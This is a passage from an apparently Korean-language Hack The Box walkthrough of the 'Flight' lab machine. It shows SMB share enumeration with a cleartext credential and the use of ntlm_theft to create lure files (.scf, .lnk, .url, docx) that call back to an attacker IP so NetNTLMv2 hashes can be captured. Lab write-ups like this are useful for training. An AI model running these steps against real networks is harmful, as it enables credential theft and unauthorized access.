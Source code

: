 ```zsh
SMB         10.129.124.131  445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE
```

## Check SMB Permission of `S.Moon`

- `S.Moon` 계정의 SMB 쉐어 접근권한을 확인한 결과, `Shared` 폴더에 대하여 쓰기 권한이 있음을 확인했다.  
- SMB 쉐어에 대한 쓰기 권한이 있는 경우에는 [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) 도구를 이용하여, NetNTLMv2 해시 값 획득을 시도해볼 수 있다. `ntlm_theft` 도구를 이용하여 악성 페이로드가 저장된 파일을 쉐어에 업로드하고 리스폰더를 이용하여 대상 호스트로부터 NetNTLMv2 해시 값을 얻을 수 있다.

```zsh
└─# nxc smb 10.129.124.131 -u S.Moon -p 'S@Ss!K@*t13' --shares                        
SMB         10.129.124.131  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False) 
SMB         10.129.124.131  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.124.131  445    G0               [*] Enumerated shares
SMB         10.129.124.131  445    G0               Share           Permissions     Remark
SMB         10.129.124.131  445    G0               -----           -----------     ------
SMB         10.129.124.131  445    G0               ADMIN$                          Remote Admin
SMB         10.129.124.131  445    G0               C$                              Default share
SMB         10.129.124.131  445    G0               IPC$            READ            Remote IPC
SMB         10.129.124.131  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.124.131  445    G0               Shared          READ,WRITE      
SMB         10.129.124.131  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.124.131  445    G0               Users           READ            
SMB         10.129.124.131  445    G0               Web             READ
```

---

## ntlm_theft (Gain NetNTLMv2 Hash)

```zsh
└─# git clone https://github.com/Greenwolf/ntlm_theft.git                                                                 
Cloning into 'ntlm_theft'...
remote: Enumerating objects: 135, done.
remote: Counting objects: 100% (28/28), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 135 (delta 13), reused 8 (delta 3), pack-reused 107 (from 1)
Receiving objects: 100% (135/135), 2.12 MiB | 22.14 MiB/s, done.
Resolving deltas: 100% (61/61), done.

[ . . . ]

└─# chmod +x ntlm_theft.py 

[ . . . ]

└─# python3 ntlm_theft.py -g all -s 10.10.14.8 -f test  
Created: test/test.scf (BROWSE TO FOLDER)
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Created: test/test.lnk (BROWSE TO FOLDER)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
```